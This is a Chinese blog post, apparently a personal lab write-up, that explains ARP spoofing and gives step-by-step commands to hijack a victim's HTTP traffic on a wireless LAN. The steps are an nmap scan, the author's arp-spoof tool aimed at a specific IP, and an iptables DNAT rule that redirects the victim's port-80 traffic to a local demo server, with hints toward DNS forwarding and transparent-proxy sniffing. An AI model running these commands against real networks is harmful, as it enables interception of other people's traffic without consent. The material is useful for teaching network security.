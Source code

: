 ```yaml
---
layout: post
title: "ARP spoofing"
subtitle: "通过 ARP 欺骗劫持 HTTP 流量"
date: 2019-02-15 17:48
tags: 
    - TCP/IP
    - Linux
---
```


主机上线到一个网络之后会获得至少一个 IP 地址（比如 DHCP 或静态地址）。IP 地址能反映网络的拓扑结构，但 IP 地址并不能唯一地标识一个网络接口；能够唯一标识一个网卡的是在制造出厂时写入的 6 字节的 MAC 地址。一个 IP 数据包在到达另一个接口之前，需要知道目的地 IP 地址的 MAC 地址。ARP 就是一个将 IP 地址解析为 MAC 地址的协议，而一个基于以太网之上的 ARP 数据包结构如下

![Internet Protocol(IPv4) over Ethernet ARP packet]({{ "img/arp-spoofing-packet.png" | absolute_url }})

由于 ARP 的使用者不检查 ARP 数据包的真实性，ARP 的请求和应答容易受到第三者的干扰，特别是在一些共享介质的链路（比如无线局域网）。在多数情况下，攻击者将自身的 MAC 地址和网关的 IP 写入 ARP 应答，向受害者发送这个虚假的 ARP 应答，把自己伪装成网关并拦截了受害者的数据包。这种网络攻击被成为 ARP 欺骗(ARP spoofing)，也是一种主动嗅探(active sniffing)，对应被动嗅探(passive sniffing, 比如在共享介质链路中将网卡置于混杂模式)。

下文记录一个在无线局域网中实施 ARP 攻击并劫持 HTTP 流量到服务器 demo 的过程。[这个发送 ARP 应答的程序](https://github.com/kennico/arp-spoofing) 使用到 libpcap 而且直接从系统的 ARP 缓存获取 IP 地址对应的 MAC 地址。

- OS: Ubuntu 16.04 x64
- Requirement: libpcap, nmap，python 3.5

首先通过 `ipconfig -a` 决定要用来实施攻击的网卡名称，以及对应的网段

```
kenny@kenny-X450LD:~$ ifconfig
wlan0     Link encap:Ethernet  HWaddr 11:22:33:44:55:66  
          inet addr:192.168.43.24  Bcast:192.168.43.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:24 errors:0 dropped:244 overruns:0 frame:0
          TX packets:74 errors:0 dropped:1 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:7509332 (7.5 MB)  TX bytes:1491944 (1.4 MB)
```

在这里我用的是 `wlan0`，网段为 192.168.43.24/24。然后使用
`nmap` 发现局域网的其他主机。选项 `-sn` 表示不进行端口扫描以节省时间：

```
kenny@kenny-X450LD:~$ sudo nmap -sn 192.168.43.24/24

Starting Nmap 7.01 ( https://nmap.org ) at 2019-02-15 20:55 CST
Nmap scan report for 192.168.43.1
Host is up (0.12s latency).
MAC Address: 22:39:56:76:90:6B (Unknown)
Nmap scan report for Kennico (192.168.43.79)
Host is up (0.075s latency).
MAC Address: 24:1B:7A:10:14:FC (Unknown)
Nmap scan report for kenny-X450LD (192.168.43.24)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 11.26 seconds
```

如果不使用 root 权限， `nmap` 会显示设备的名称而不是 MAC 地址。接下来选择 192.168.43.79(24:1B:7A:10:14:FC) 作为受害者，运行发送 ARP 应答的程序。libpcap 的 `pcap_open_live` 函数需要 root 权限：

```
kenny@kenny-X450LD:~$ sudo ./arp-spoof -e wlan0 192.168.43.79
DEBUG: get_gateway_ip - Command: route -n | grep -P '^0\.0\.0\.0.+UG.+wlx502b73dc543f$'
DEBUG: Command: arp -n | awk '$0 !~ "incomplete"' | grep -oP '(\w{2}:){5}\w{2}|((\d+\.){3}\d+)'
DEBUG: device "wlan0" opened successfully.
DEBUG: ip=192.168.43.79 secs=10 pkts=-1 twoway=0
Attacking 192.168.43.79(24:1B:7A:10:14:FC)...
```

选项 `-e` 指定网卡；`-n` 为两次发送的时间间隔，以秒为单位；`-c` 表示发送应答的数目，缺省则一直循环。接着拉起一个 HTTP 服务器 demo：

```python
#
# python3 http_server.py
#
from http.server import SimpleHTTPRequestHandler
from socketserver import ThreadingTCPServer

page = """
<html>
<header><title>This is title</title></header>
<body>
Hello world
</body>
</html>
"""

class demoHttpRequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Connection', 'close')
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(page.encode('utf-8'))

if __name__ == '__main__':
    try:
        httpd = ThreadingTCPServer(('127.0.0.1', 8080), demoHttpRequestHandler)
        httpd.serve_forever()
    except KeyboardInterrupt:
        print('httpd exits.')
```

服务器监听 127.0.0.1:8080。因为服务器 demo 监听 127.0.0.1，需要配置系统以允许转发所谓的“火星数据包([Martian packet](https://en.wikipedia.org/wiki/Martian_packet), 数据包的发送者 IP 显示这个数据包应该从另外一个接口得到)”。192.168.43.24是接口 wlan0 的IP的地址，而 127.0.0.1 是属于 lo 的 IP 地址

```sh
sudo sysctl -w net.ipv4.conf.wlan0.route_localnet=1
sudo sysctl -w net.ipv4.conf.all.route_localnet=1
```

接下来是最重要的一步：将拦截到的 HTTP 流量转发到服务器 demo:

```shell
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp -s 192.168.43.79 --dport 80 -j DNAT --to-destination 127.0.0.1:8080
```
这里的 `iptables` 追加一个规则到内核的 NAT 表(`-t nat`) 的 PREROUTING 匹配链。PREROUTING 表示在选择路由之前检查满足的条件的数据包：

- 来自 wlan0 (`-i`)
- 协议为 TCP (`-p`)
- 发送者为 192.168.43.79 (`-s`)
- 接收者端口为 80

一旦匹配成功就采取行动(`-j`)，将数据包转发到 127.0.0.1:8080(`-DNAT`表示更改接收者的地址)。使用 `iptables` 还有一个好处，一些原本需要绑定到低端口(<1024)服务器，现在可以绑定到高端口，因此服务器本身 **不需要 root 权限** 。(之前花了两周时间最后也没有实现类似的端口转发功能，到头来一个下午查的一个命令就解决问题了Orz)

```
kenny@kenny-X450LD:~$ sudo iptables -t nat -L -v
Chain PREROUTING (policy ACCEPT 657 packets, 42591 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    5   320 DNAT       tcp  --  wlan0  any     192.168.43.79        anywhere             tcp dpt:http to:127.0.0.1:8080
...
```

上边列出了已有的规则。下图为受害者设备用 chrome 访问 8.8.8.8 的截图（众所周知 8.8.8.8 是谷歌公共 DNS），可见 HTML 页面即为脚本里的字符串内容：

![HTTP]({{ "img/arp-spoofing-http.png" | absolute_url }})

上图中的设备直接访问给定 IP 的 80 端口。如果要访问一个域名，则还需要用 `iptables` 转发来自 53 端口 DNS 请求；除此之外，如果要实现嗅探 HTTP/HTTPS 流量，就应该拉起来透明代理而不是那个 HTTP demo，然后打开 wireshark 就可以很方便地进行抓包（下图并未使用透明代理）。

![Wireshark]({{ "img/arp-spoofing-wireshark.png" | absolute_url }})